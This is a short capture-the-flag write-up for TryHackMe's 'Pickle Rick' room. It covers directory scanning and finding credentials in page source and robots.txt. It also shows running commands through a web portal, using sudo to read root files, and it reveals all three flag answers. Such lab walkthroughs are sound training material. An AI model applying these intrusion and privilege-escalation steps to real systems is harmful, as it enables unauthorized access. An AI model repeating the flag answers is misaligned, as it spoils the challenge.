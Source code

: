 # Matheus Jesus 01-05-2020

## Try Hack Me - [Pickle Rick](https://tryhackme.com/room/picklerick)

### IP 10.10.69.83

#### Recon

Apache/2.4.18 (Ubuntu) Server at 10.10.69.83 Port 80

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)

gobuster dir -u 10.10.69.83 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

#### Finding Rick's username and password

Open website 10.10.69.83

Ctrl+U

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

/robots.txt -> Wubbalubbadubdub

#### Login on Website

R1ckRul3s:Wubbalubbadubdub -> takes us to /portal.php

#### Running Commands on Portal.php

```sh
ls
# Sup3rS3cretPickl3Ingred.txt
# assets
# clue.txt
# denied.php
# index.html
# login.php
# portal.php
# robots.txt
```

First ingredient is on /var/www/html/Sup3rS3cretPickl3Ingred.txt

```text
/Sup3rS3cretPickl3Ingred.txt
#mr. meeseek hair
```

Second ingredient is on /home/rick/second ingredients

```sh
less /home/rick/"second ingredients"
#1 jerry tear
```

```sh
sudo -l
sudo ls -la /root
sudo less /root/3rd.txt
#3rd ingredients: fleeb juice
```

